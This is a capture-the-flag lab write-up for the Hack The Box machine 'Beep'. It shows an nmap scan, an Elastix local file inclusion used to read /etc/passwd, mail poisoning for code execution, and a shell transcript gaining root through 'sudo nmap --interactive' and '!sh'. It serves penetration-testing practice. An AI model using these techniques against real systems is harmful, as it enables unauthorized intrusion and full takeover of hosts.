 ```yaml
---
layout: post
title: Beep
date: 2020-03-31
author: OutHackThem
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Beep writeup

Easy Linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.7
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) USER RESP-CODES PIPELINING STLS AUTH-RESP-CODE TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ACL THREAD=ORDEREDSUBJECT SORT=MODSEQ LISTEXT OK URLAUTHA0001 X-NETSCAPE CHILDREN IMAP4rev1 LITERAL+ SORT LIST-SUBSCRIBED BINARY NO CONDSTORE STARTTLS CATENATE ANNOTATEMORE UNSELECT QUOTA NAMESPACE Completed IDLE IMAP4 RIGHTS=kxte THREAD=REFERENCES ATOMIC MULTIAPPEND RENAME MAILBOX-REFERRALS ID UIDPLUS
443/tcp   open  ssl/https?
|_ssl-date: 2020-04-02T05:25:23+00:00; +5m16s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 5m15s
                        

```

<br>

### Enumeration

- The Elastix application running on port 80 is vulnerable to LFI https://www.exploit-db.com/exploits/37637


![LFI]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/lfi.png)

Now there is a method where you can achieve code execution using LFI and SMTP. 
Lets first try to verify if we can send mail using SMTP and also find some users using the /etc/passwd file from the LFI


![SMTP]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/SMTP.png)



### Exploitation


Now I tried using fanis user but I could not read his mail so I tried again with asterisk and it worked, I sent a mail again to asterisk and read the mail using LFI which executed as code.

![codeexec]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/codeexec.png)



Now post enumeration and priv esec 

```perl

bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 



bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 




```
